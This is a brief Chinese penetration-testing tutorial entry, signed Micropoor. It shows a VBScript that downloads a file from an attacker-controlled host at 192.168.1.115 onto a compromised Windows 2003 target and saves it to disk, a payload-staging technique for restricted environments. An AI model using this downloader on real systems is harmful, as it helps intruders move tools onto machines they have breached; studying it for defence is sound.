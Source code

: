 在实战中，会碰到许多让人敬畏的环境，也许无法执行，或者无法把下载参数带入其中，故补充第七季 vbs 参数化的下载。

**靶机：**windows 2003  
![](media/130baad813eacf09b1932ecb7e5d4279.jpg)

![](media/d434ad0c2a6c5f531e908fedca5f2044.jpg)

### 附：源码如下：
```visual-basic
strFileURL = "http://192.168.1.115/robots.txt"
strHDLocation = "c:\\test\\logo.txt"
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()
If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1
objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0
Set objFSO = CreateObject("Scripting.FileSystemObject")
If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocati on
Set objFSO = Nothing
objADOStream.SaveToFile strHDLocation
objADOStream.Close
Set objADOStream = Nothing
End if
Set objXMLHTTP = Nothing
```
>   Micropoor
